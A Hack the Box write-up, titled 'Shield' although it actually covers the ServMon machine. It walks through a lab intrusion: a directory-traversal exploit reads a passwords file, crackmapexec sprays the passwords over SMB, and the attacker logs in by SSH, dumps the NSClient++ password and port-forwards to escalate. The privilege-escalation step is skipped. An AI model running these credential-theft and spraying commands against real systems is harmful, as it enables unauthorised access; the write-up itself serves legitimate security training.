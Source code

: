 +++
title = "Hack the Box: Shield"
date = 2023-02-05
description = "Hack the Box: Shield"
tags = [
    "Hack the Box",
    "Write-up"
]
categories = [
    "Hack the Box",
    "Write-up"
]
series = ["Hack the Box"]
+++

Hack the Box: Shield

<!--more-->

# Shield

## Enumeration

### Nmap

```
# sudo nmap -sV -sC -O -nvv 10.10.10.184 -Pn

PORT     STATE SERVICE       REASON          VERSION
21/tcp   open  ftp           syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_01-18-20  12:05PM       <DIR>          Users
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp   open  ssh           syn-ack ttl 127 OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 b9:89:04:ae:b6:26:07:3f:61:89:75:cf:10:29:28:83 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDnC92+BCplDo38VDQIZzb7V3HN/OucvxF0VMDDoYShdUrpDUW6JcSR/Zr6cADbHy7eDLw2O+WW+M4SzH7kfpbTv3HvJ0z8iOsRs2nUrUint4CR/A2vYA9SFOk18FU0QUS0sByBIlemU0uiPxN+iRCcpFhZDj+eiVRF7o/XxNbExnhU/2n9MXwFS8XTYNeGqSLE1vV6KdpMfpJj/yey8gvEpDQTX5OQK+kkUHze3LXLyu/XVTKzfqUBMAP+IQ5F6ICWgaC1a+cx/D7C/aobCbqaXY+75t1mxbEMmm1Wv/42nVQxcT7tN2C3sds4VJkYgZKcBhsE0XdJcR9mTb1wWsg9
|   256 71:4e:6c:c0:d3:6e:57:4f:06:b8:95:3d:c7:75:57:53 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMToH2eB7rzpMZuvElpHYko/TXSsOfG8EXWQxmC/T4PCaAmVRDgJWEFMHgpRilSAKoOBlS2RHWNpMJldTFbWSVo=
|   256 15:38:bd:75:06:71:67:7a:01:17:9c:5c:ed:4c:de:0e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILbqSRVLRJFVNhD0W0C5xB7b3RoJZZKdM+jSGryFWOQa
80/tcp   open  http          syn-ack ttl 127
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html).
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack ttl 127
5666/tcp open  tcpwrapped    syn-ack ttl 127
6699/tcp open  napster?      syn-ack ttl 127
8443/tcp open  ssl/https-alt syn-ack ttl 127
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     HTTP/1.1 404
|     Content-Length: 18
|     Document not found
|   GetRequest: 
|     HTTP/1.1 302
|     Content-Length: 0
|     Location: /index.html
|     iday
|     :Saturday
|     workers
|_    jobs
| http-methods: 
|_  Supported Methods: GET
| http-title: NSClient++
```

Connect to tcp, cd /users/ find files there giving clues/tips.

[https://github.com/AleDiBen/NVMS1000-Exploit](https://github.com/AleDiBen/NVMS1000-Exploit "https://github.com/AleDiBen/NVMS1000-Exploit")
[https://docs.nsclient.org/](https://docs.nsclient.org/ "https://docs.nsclient.org/")

```
# python3 nvms.py 10.10.10.184 /users/Nathan/Desktop/Passwords.txt
[+] DT Attack Succeeded
[+] File Content

++++++++++ BEGIN ++++++++++
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
++++++++++  END  ++++++++++
```

Put those password in a file dans pass it in crackmapexec:

```
# crackmapexec smb 10.10.10.184 -u Nadine -p pass-servmon.txt
...
SMB         10.10.10.184    445    SERVMON          [+] SERVMON\Nadine:L1k3B1gBut7s@W0rk
...
# crackmapexec smb 10.10.10.184 -u Nathan -p pass-servmon.txt
```

We can see we have Nadine has a read access to a share

```
# crackmapexec smb 10.10.10.184 -u Nadine -p L1k3B1gBut7s@W0rk --shares
SMB         10.10.10.184    445    SERVMON          [*] Windows 10.0 Build 18362 x64 (name:SERVMON) (domain:SERVMON) (signing:False) (SMBv1:False)
SMB         10.10.10.184    445    SERVMON          [+] SERVMON\Nadine:L1k3B1gBut7s@W0rk 
SMB         10.10.10.184    445    SERVMON          [+] Enumerated shares
SMB         10.10.10.184    445    SERVMON          Share           Permissions     Remark
SMB         10.10.10.184    445    SERVMON          -----           -----------     ------
SMB         10.10.10.184    445    SERVMON          ADMIN$                          Remote Admin
SMB         10.10.10.184    445    SERVMON          C$                              Default share
SMB         10.10.10.184    445    SERVMON          IPC$            READ            Remote IPC
```

Let’s try to SSH with her credentials:

```
# ssh Nadine@10.10.10.184
# cd Desktop
# type user.txt
34c11d0537a6c54eaedaf0e70fa41a21
```

And we get the user hash.

```
nadine@SERVMON C:\Program Files\NSClient++>nscp web -- password --display
Current password: ew2x6SsGTxjRwXOT
```

NSClient++ is vulnerable to a PE: [https://www.exploit-db.com/exploits/46802](https://www.exploit-db.com/exploits/46802 "https://www.exploit-db.com/exploits/46802").

`Type nsclient.ini` allow only localhost to access to the admin dashboard `allowed host = 127.0.0.1` let’s do a port forwarding to abuse that. Launch ssh service `ssh -L 8443:127.0.0.1:8443 Nadine@10.10.10.184` and then open `https://127.0.0.1:8443`. C:\Users\Administrator\Desktop>type root.txt type root.txt 65b04c7b20598ff912c3dce1d317d579

[https://fdlucifer.github.io/2020-04-23-ServMon.html](https://fdlucifer.github.io/2020-04-23-ServMon.html "https://fdlucifer.github.io/2020-04-23-ServMon.html")
